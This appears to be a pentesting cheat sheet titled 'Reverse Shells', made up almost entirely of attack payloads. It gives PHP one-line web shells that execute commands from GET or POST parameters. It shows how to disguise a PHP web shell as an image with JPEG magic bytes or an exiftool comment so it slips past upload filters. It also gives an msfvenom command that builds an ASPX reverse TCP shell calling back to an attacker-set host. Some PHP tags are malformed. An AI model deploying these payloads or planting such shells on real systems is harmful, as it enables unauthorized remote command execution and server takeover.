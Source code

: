 # Reverse Shells

#### PHP Reverse Shells

##### Basic PHP reverse shells

```php
<php echo exec('whoami');?>
<php system("whoami"); ?>
<php system($_REQUEST['wr3nch']); #	works with the post verb
<php system($_GET['wr3nch']); >
```


##### PHP reverse shell in images

```bash
# Using magic bytes
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
echo '<?=`$_GET[wr3nch]`?>' >> webshell.php.jpg
# Using exiftool
exiftool -comment='<?php system($_GET['wr3nch']);?>' \<file_name\>.\<extension\>
```

#### MSFVENOM

##### aspx reverse shell
```bash
# generate an aspx for windows machine
msfvenom -p windows/shell_reverse_tcp LHOST=xxxxxx LPORT=xxxxx -f aspx > exploit.aspx
```
